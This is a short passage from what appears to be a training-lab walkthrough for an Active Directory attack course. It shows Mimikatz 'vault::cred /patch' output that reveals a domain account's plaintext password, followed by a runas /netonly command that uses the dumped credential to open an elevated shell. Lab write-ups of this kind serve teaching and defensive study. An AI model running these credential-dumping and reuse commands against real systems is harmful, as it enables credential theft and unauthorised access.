 ```

mimikatz(commandline) # vault::cred /patch📌

TargetName : Domain:batch=TaskScheduler:Task:{877E4326-BAD4-4516-A4B1-60C73F0EFDDA} / <NULL>
UserName   : TECH\databaseagent👤
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : CheckforSQLServer31-Availability🔑
Attributes : 0

[SNIP]
```
🚩

![Run as administrator](learning_objectives_run_as_administrator.png)

![studvm | studentuser](https://custom-icon-badges.demolab.com/badge/studvm-studentuser-64b5f6?logo=windows11&logoColor=white)

`runas /user:tech\databaseagent /netonly "powershell -Command \"Start-Process cmd -Verb RunAs\""`:
```
Enter the password for tech\databaseagent:📌
Attempting to start powershell -Command "Start-Process cmd -Verb RunAs" as user "tech\databaseagent" ...
```

![New spawned terminal process 2](./assets/screenshots/learning_objective_07_new_spawned_terminal_process_2.png)
